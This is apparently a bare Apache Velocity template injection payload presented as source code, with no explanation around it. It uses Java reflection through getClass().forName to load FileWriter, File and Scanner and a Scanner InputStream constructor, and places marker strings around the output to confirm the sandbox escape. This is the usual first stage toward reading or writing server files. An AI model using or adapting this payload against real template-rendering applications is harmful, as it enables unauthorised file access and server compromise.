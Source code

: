 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
$a
#set ($ab=$e.getClass().forName("java.io.File"))
$ab
#set($sc = $e.getClass().forName("java.util.Scanner"))
$sc
#set($str=$class.inspect("java.lang.String").type)
$str
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
$constructor
$monkey



